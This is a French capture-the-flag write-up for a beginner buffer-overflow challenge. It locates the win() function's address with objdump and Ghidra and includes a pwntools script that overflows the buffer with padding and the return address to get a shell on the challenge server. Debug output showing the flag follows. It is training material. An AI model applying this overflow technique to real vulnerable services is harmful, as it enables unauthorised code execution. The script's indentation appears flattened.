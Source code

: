 
---
# Description du challenge : 

## BOF win()

### 150

Conçu par Oblivios

Voici ma fonction win() qui te donnes un shell, seras-tu capable de la call ? :D

`Connexion: nc intro.ctfrei.fr 7005`

--- 


> Je télécharge le fichier et quand je me connecte sur le nc j'ai ce message : 

```shell
[Oct 03, 2024 - 16:38:24 (CEST)] exegol-EthicalHacking / #  nc intro.ctfrei.fr 7005
Tu as un buffer à overflow et une fonction win() à appeler (bon faut réussir à trouver son adresse...).
Attention, si tu compiles le challenge en local, l'adresse win() sera différente de celle en remote.
Tiens, prends ton shell:
```

> Donc je vais chercher l'addresse mémoire de win dans le fichier téléchargé : 

```shell
[Oct 03, 2024 - 16:36:46 (CEST)] exegol-EthicalHacking / # objdump -d chall | grep '<win>'
08049254 <win>:
```

> Je connais l'addresse, j'ouvres le fichier avec ghidra :

![[Pasted image 20241003164132.png]]

> Il y a plusieurs fonctions : vuln_function, win, open_flag a chaque fois le buffer est de 64 ou 68 characteres donc j'ai juste a creer mon payload : 

```python
from pwn import *

context.log_level = 'debug'

r = remote('intro.ctfrei.fr', 7005)

win_addr = 0x08049254 

for buffer_size in [64, 68, 72, 76]:

r = remote('intro.ctfrei.fr', 7005)

payload = b'A' * buffer_size

payload += p32(win_addr)

r.recvuntil(b'shell:')

r.sendline(payload)

print(f"Essai avec buffer_size = {buffer_size}")

print(r.recvall(timeout=10).decode())

r.close()

  
print("Si aucun des essais ci-dessus n'a fonctionné, essayez ceci :")

r = remote('intro.ctfrei.fr', 7005)

r.recvuntil(b'shell:')

r.sendline(b'A' * 72 + p32(win_addr))

r.interactive()
```

> J'execute le script : 

```shell 
[+] Opening connection to intro.ctfrei.fr on port 7005: Done
[DEBUG] Received 0xeb bytes:
    00000000  54 75 20 61  73 20 75 6e  20 62 75 66  66 65 72 20  │Tu a│s un│ buf│fer │
    00000010  c3 a0 20 6f  76 65 72 66  6c 6f 77 20  65 74 20 75  │·· o│verf│low │et u│
    00000020  6e 65 20 66  6f 6e 63 74  69 6f 6e 20  77 69 6e 28  │ne f│onct│ion │win(│
    00000030  29 20 c3 a0  20 61 70 70  65 6c 65 72  20 28 62 6f  │) ··│ app│eler│ (bo│
    00000040  6e 20 66 61  75 74 20 72  c3 a9 75 73  73 69 72 20  │n fa│ut r│··us│sir │
    00000050  c3 a0 20 74  72 6f 75 76  65 72 20 73  6f 6e 20 61  │·· t│rouv│er s│on a│
    00000060  64 72 65 73  73 65 2e 2e  2e 29 2e 0a  41 74 74 65  │dres│se..│.).·│Atte│
    00000070  6e 74 69 6f  6e 2c 20 73  69 20 74 75  20 63 6f 6d  │ntio│n, s│i tu│ com│
    00000080  70 69 6c 65  73 20 6c 65  20 63 68 61  6c 6c 65 6e  │pile│s le│ cha│llen│
    00000090  67 65 20 65  6e 20 6c 6f  63 61 6c 2c  20 6c 27 61  │ge e│n lo│cal,│ l'a│
    000000a0  64 72 65 73  73 65 20 77  69 6e 28 29  20 73 65 72  │dres│se w│in()│ ser│
    000000b0  61 20 64 69  66 66 c3 a9  72 65 6e 74  65 20 64 65  │a di│ff··│rent│e de│
    000000c0  20 63 65 6c  6c 65 20 65  6e 20 72 65  6d 6f 74 65  │ cel│le e│n re│mote│
    000000d0  2e 0a 54 69  65 6e 73 2c  20 70 72 65  6e 64 73 20  │.·Ti│ens,│ pre│nds │
    000000e0  74 6f 6e 20  73 68 65 6c  6c 3a 20                  │ton │shel│l: │
    000000eb
[DEBUG] Sent 0x51 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  41 41 41 41  54 92 04 08  │AAAA│AAAA│AAAA│T···│
    00000050  0a                                                  │·│
    00000051
Essai avec buffer_size = 76
[+] Receiving all data: Done (56B)
[DEBUG] Received 0x1e bytes:
    00000000  42 69 65 6e  20 6a 6f 75  c3 a9 2c 20  74 75 20 61  │Bien│ jou│··, │tu a│
    00000010  73 20 63 61  6c 6c 20 77  69 6e 28 29  21 0a        │s ca│ll w│in()│!·│
    0000001e
[DEBUG] Received 0x19 bytes:
    b'Flag: CTFREI{b0f_t0_w1n}\n'
[*] Closed connection to intro.ctfrei.fr port 7005
 Bien joué, tu as call win()!
Flag: CTFREI{b0f_t0_w1n}
```

# Résultat : 

> Flag: CTFREI{b0f_t0_w1n}

